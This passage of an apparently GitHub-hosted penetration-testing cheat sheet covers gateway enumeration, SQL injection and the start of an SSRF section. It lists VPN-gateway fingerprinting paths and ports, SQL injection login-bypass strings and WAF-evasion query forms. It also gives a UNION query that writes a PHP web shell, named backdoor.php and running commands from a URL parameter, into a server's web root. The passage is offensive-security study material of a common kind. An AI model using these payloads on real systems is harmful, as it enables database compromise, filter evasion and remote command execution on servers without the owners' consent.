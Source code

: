 ### enumerating firewalls/gateway
```bash
https://www.secjuice.com/osint-detecting-enumerating-firewalls-gateways/
# Some tips and quick wins

# URL
# - /dana-na/ --> Pulse VPN Gateways
# - /remote/login --> Fortinet VPN Gateways
# - /+CSCOE+/logon.html --> Cisco-VPN
# - /vpn/index.html --> Netscaler

# Ports
# 264 / 18264 --> Checkpoint
# 4443 --> SonicWall / Sophos
# 500/udp --> Can be Cisco VPN (IPSEC iirc)
```

## injection
### sqli
*when an attacker is able to manipulate queries which an application makes to a database*

```bash
https://websec.wordpress.com/tag/sql-filter-bypass/  

# Cheat sheet 
https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md

# Classical test
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
admin\'-- -

# waf bypass
SELECT-1e1FROM`test`
SELECT~1.FROM`test`
SELECT\NFROM`test`
SELECT@^1.FROM`test`
SELECT-id-1.FROM`test`

# Upload file
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'

```

### ssrf
*vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location*
